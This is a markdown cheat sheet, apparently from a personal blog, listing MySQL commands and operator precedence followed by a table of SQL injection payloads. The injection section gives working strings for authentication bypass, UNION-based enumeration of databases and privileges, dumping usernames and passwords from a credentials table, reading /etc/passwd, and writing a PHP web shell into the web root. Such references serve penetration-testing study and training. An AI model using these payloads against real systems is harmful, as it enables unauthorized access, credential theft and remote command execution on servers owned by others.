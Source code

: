 ```yaml
---
layout: post
category: cheatsheets
---
```


### Table of Contents

- [MySQL](#mysql)
    - [General Commands](#general-commands)
    - [Mysql Operator Precedence](#mysql-operator-precedence)
    - [SQL Injection](#sql-injection)


## [MySQL](#mysql)

| **Command**   | **Description**   |
| --------------|-------------------|
| [**General Commands**](#general-commands) |
| ```mysql -u root -h server -P 3306 -p``` | login to mysql database |
| ```SHOW DATABASES``` | List available databases |
| ```USE users``` | Switch to database |
| **Tables** |
| ```CREATE TABLE logins (id INT, ...)``` | Add a new table |
| ```SHOW TABLES``` | List available tables in current database |
| ```DESCRIBE logins``` | Show table properties and columns |
| ```INSERT INTO table_name VALUES (value_1,..)``` | Add values to table |
| ```INSERT INTO table_name(column2, ...) VALUES (column2_value, ..)``` | Add values to specific columns in a table |
| ```UPDATE table_name SET column1=newvalue1, ... WHERE <condition>``` | Update table values |
| **Columns** |
| ```SELECT * FROM table_name``` | Show all columns in a table |
| ```SELECT column1, column2 FROM table_name``` | Show specific columns in a table |
| ```DROP TABLE logins``` | Delete a table |
| ```ALTER TABLE logins ADD newColumn INT``` | Add new column |
| ```ALTER TABLE logins RENAME COLUMN newColumn TO oldColumn``` | Rename column |
| ```ALTER TABLE logins MODIFY oldColumn DATE``` | Change column datatype |
| ```ALTER TABLE logins DROP oldColumn``` | Delete column |
| **Output** |
| ```SELECT * FROM logins ORDER BY column_1``` | Sort by column |
| ```SELECT * FROM logins ORDER BY column_1 DESC``` | Sort by column in descending order |
| ```SELECT * FROM logins ORDER BY column_1 DESC, id ASC``` | Sort by two-columns |
| ```SELECT * FROM logins LIMIT 2``` | Only show first two results |
| ```SELECT * FROM logins LIMIT 1, 2``` | Only show first two results starting from index 2 |
| ```SELECT * FROM table_name WHERE <condition>``` | List results that meet a condition |
| ```SELECT * FROM logins WHERE username LIKE 'admin%'``` | List results where the name is similar to a given string |

## [MySQL Operator Precedence](#mysql-operator-precedence)
* Division (```/```), Multiplication (```*```), and Modulus (```%```)
* Addition (```+```) and Subtraction (```-```)
* Comparison (```=```, ```>```, ```<```, ```<=```, ```>=```, ```!=```, ```LIKE```)
* NOT (```!```)
* AND (```&&```)
* OR (```||```)

## [SQL Injection](#sql-injection)
| **Payload**   | **Description**   |
| --------------|-------------------|
| **Auth Bypass** |
| ```admin' or '1'='1``` | Basic Auth Bypass |
| ```admin')-- -``` | Basic Auth Bypass With comments |
| [Auth Bypass Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass) |
| **Union Injection** |
| ```' order by 1-- -``` | Detect number of columns using ```order by``` |
| ```cn' UNION select 2,2,3-- -``` | Detect number of columns using Union injection |
| ```cn' UNION select 1,@@version,3,4-- -``` | Basic Union injection, Find where you can return data |
| ```UNION select username, 2, 3, 4 from passwords-- -``` | Union injection for 4 columns |
| **DB Enumeration** |
| ```SELECT @@version``` | Fingerprint MySQL with query output |
| ```SELECT SLEEP(5)``` | Fingerprint MySQL with no output |
| ```cn' UNION select 1,database(),2,3-- -``` | Current database name |
| ```cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -``` | List all databases |
| ```cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -``` | List all tables in a specific database |
| ```cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -``` | List all columns in a specific table |
| ```cn' UNION select 1, username, password, 4 from dev.credentials-- -``` | Dump data from a table in another database |
| **Privileges** |
| ```cn' UNION SELECT 1, user(), 3, 4-- -``` | Find current user |
| ```cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -``` | Find if user has admin privileges |
| ```cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE user="root"-- -``` | Find if all user privileges |
| ```cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -``` | Find which directories can be accessed through MySQL |
| **File Injection** |
| ```cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -``` | Read local file |
| ```select 'file written successfully!' into outfile '/var/www/html/proof.txt'``` | Write a string to a local file |
| ```cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -``` | Write a web shell into the base web directory |